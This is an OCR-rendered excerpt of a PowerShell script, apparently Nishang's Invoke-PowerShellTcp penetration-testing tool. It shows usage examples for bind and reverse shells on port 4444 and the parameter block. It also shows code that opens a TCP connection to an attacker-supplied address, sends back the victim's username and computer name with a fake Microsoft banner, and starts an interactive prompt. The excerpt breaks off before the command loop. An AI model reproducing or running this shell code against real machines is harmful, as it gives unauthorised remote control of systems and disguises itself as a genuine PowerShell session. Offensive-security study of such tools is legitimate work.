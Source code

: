 ```powershell
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
```
